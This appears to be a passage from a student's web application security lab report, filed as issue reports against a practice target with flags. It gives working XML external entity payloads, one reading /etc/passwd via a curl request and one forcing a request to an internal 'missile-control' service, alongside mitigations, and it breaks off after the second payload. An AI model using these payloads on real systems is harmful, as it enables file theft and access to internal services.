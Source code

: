    **Description:** API POST `/api/articles/custom-search` allow user to send their payload which is xml file to search the article. When wasdat application parse the xml without it, attacker can read the file that they want.

   **Step to produce:**

   - Create `password-search.xml` file that contain following detail 

     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE foo [
     	<!ELEMENT foo ANY >
     	<!ENTITY xxe SYSTEM "/etc/passwd" >
     ]
     >
     <foo>&xxe;</foo>
     ```

     This xml contains internal DTD defining a `foo` document type which can include any parsable data. Then we define entity xxe that will read file `/etc/passwd`. So, when the document is parsed, the parser will replace `&xxe` with the content in file.

   - Run the following curl command to call API

     ```bash
     curl -X POST http://localhost:8080/api/articles/custom-search -H "Content-Type: text/xml" --data "@password-search.xml"
     ```

     The result and **WasFlag5_1** (before last line) that I get is

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week2/Screen Shot 2565-01-26 at 16.31.22.png" alt="Screen Shot 2565-01-26 at 16.31.22" style="zoom:50%;" />

   

   **Impact estimation:** Attacker can read any file in the backend server by using !ENTITY with system attribute which is really bad if server contains sensitive data e.g. JWT secret key, user password.

   **Mitigation:**

   - Option one: Use XSD validation to validate the incoming XML file from user
   - Option two: Disable XML external entity and DTD processing in all XML parsers in the application.

3. [Issue report] **TARGET => WasDat:** Wasdat XXE SSRF (4 pts)

   **Title:** Annonymous user can call missile-control API by passing their xml file in custom search API.

   **Description:** API POST `/api/articles/custom-search` allow user to send their payload which is xml file to search the article. When wasdat application parse the xml without it. In this case, attacker can call missile-control API.

   **Step to produce:**

   - Create `missile-api.xml` file that contain following detail 

     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE foo [
     	<!ELEMENT foo ANY >
     	<!ENTITY xxe SYSTEM "http://missile-control:6666/launch-the-missiles">
     ]
     >
     <foo>&xxe;</foo>
     ```
